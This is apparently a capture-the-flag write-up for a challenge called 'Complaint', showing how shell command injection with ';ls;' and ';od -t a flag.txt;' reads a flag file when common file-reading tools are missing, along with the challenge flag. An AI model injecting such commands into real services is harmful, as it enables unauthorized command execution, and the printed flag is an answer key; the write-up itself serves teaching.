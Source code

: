 # Complaint

![](complaint.png)

From the description you can assume a bash syntax similar to this:

```bash
echo SOMEINPUT > /dev/null
```

This unfortunately means that all the input is moved in the void; or is it?

There are a few ways of executing multiple commands at once.
You can for example concatenate multiple commands using `;` or execute multiple commands after each other by using `&&`.
Thus I had found a way to execute my own commands with this input:

```bash
;do something;
```
With this it was easy to locate the flag file:
```bash
;ls;
```
```raw
WHAT IS BOTHERING YOU???
;ls;

bin
boot
chall
dev
etc
flag.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
YOUR COMPLAINT HAS BEEN RECORDED.
```

The only problem now was that the most common tools to print files were missing.
No `cat`, `head`, `tail`, `less`, `more` and a lot more...
Fortunately though `od` was still available.
This means that the flag could be extracted by running
```bash
;od -t a flag.txt;
```
This gave the expected result and printed the flag.

### Flag: `X-MAS{h3ll0_k4r3n-8819d787dd38a397}`

